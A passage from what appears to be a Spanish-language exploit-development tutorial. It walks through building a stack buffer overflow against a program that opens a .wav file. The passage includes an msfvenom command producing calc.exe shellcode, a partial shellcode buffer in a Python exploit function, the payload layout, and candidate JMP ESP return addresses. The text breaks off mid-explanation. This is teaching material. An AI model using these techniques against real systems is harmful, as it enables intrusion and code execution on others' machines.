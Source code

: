 Nota: Usamos `-b`para mostrar cómo eliminar los caracteres incorrectos de nuestro código shell, donde podemos agregar todos los caracteres incorrectos que necesitamos eliminar (por ejemplo `'\x00\x0a\x0d'`). Incluso si nuestro código shell no tuviera caracteres incorrectos, este código shell aún debería ejecutarse, aunque el código shell final suele ser más largo si especificamos caracteres incorrectos.

A continuación, podemos copiar la `buf`variable en nuestro exploit, donde ahora definiremos la función final `def exploit()`, que será nuestro código de exploit principal:
```python
def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
    buf =  b""
    buf += b"\xd9\xec\xba\x3d\xcb\x9e\x28\xd9\x74\x24\xf4\x58\x29"
    ...SNIP...
    buf += b"\xfd\x2c\x39\x51\x60\xbf\xa1\xb8\x07\x47\x43\xc5"
```

	Consejo: Se recomienda como práctica recomendada agregar un comentario encima de cualquier código de shell con el comando utilizado para generarlo, en caso de que queramos modificarlo o regenerarlo en el futuro, o si simplemente queremos saber qué ejecutará.

## La carga útil final

Ahora que tenemos nuestro código shell, podemos escribir la carga útil final que escribiremos en el `.wav`archivo que se abrirá en nuestro programa. Hasta el momento sabemos lo siguiente:

1. `buffer`: Podemos llenar el buffer escribiendo`b"A"*offset`
2. `EIP`: Los siguientes 4 bytes deben ser nuestra dirección de remitente.
3. `buf`: Después de eso, podemos agregar nuestro código shell.

En la sección anterior, encontramos múltiples direcciones de retorno que pueden funcionar en la ejecución de cualquier código shell que escribamos en la pila:

|`ESP`|`JMP ESP`|`PUSH ESP; RET`|
|---|---|---|
|`0014F974`|`00419D0B`|`0047D4F5`|
|-|`00463B91`|`00483D0E`|
|-|`00477A8B`|-|
|-|`0047E58B`|-|
|-|`004979F4`|-|

Para convertirlo `hex`a una dirección en Little Endian, usaremos una función de Python llamada que `pack`se encuentra en la `struct`biblioteca. Podemos importar esta función agregando la siguiente línea al comienzo de nuestro código:

Código: pitón

```python
from struct import pack
```

Ahora podemos usar `pack`para convertir nuestra dirección en su formato adecuado y usar ' `<L`' para especificar que la queremos en formato Little Endian:
